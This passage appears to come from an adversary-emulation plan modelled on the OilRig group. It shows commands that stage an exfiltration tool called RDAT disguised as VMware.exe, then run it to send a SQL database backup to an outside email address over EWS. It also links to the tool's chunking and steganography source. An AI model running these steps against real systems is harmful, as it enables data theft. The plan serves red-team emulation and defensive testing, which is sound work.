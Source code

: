 Create directory C:\Programdata\Vmware

```bash
# OilRig has saved RDAT to disk as C:\Programdata\Nt.dat before moving and renaming it to C:\Programdata\Vmware\VMware.exe

mkdir C:\Programdata\Vmware
```

Move and rename RDAT as C:\Programdata\Vmware\VMware.exe

```bash
# OilRig has saved RDAT to disk as C:\Programdata\Nt.dat before moving and renaming it to C:\Programdata\Vmware\VMware.exe

move C:\Programdata\Nt.dat C:\Programdata\Vmware\VMware.exe
```

Change directory into the SQL backup directory (PsExec has a character limit)

```bash
cd "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\"
```

Execute RDAT to pull back target database backup file.

```bash
# OilRig has used EWS APIs to exfiltrate data to an adversary controlled email

C:\ProgramData\Vmware\VMware.exe --path="sitedata_db.bak" --to="sistan@shirinfarhad.com" --from="gosta@boom.box" --server="10.1.0.6" --password='d0ntGoCH4$ingW8trfalls' --chunksize="200000"
```

<br>

### :moyai: Source Code
*  RDAT chunking: [Program.cs#L104-L109](../Resources/RDAT/Program.cs#L104-L109)
*  RDAT appending file bytes to guest.bmp: [Program.cs#L117-L129](../Resources/RDAT/Program.cs#L77-L85)
* RDAT leverages EWS API to exfil chunks: [Program.cs#L95-L115](../Resources/RDAT/Program.cs#L43-L75)
  
<br>

### :microscope: Cited Intelligence
*  RDAT/Exfiltration: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  TwoFace webshell: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/
*  C2 Communications: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>

## Step 11 - Cleanup

### :microphone: Voice Track
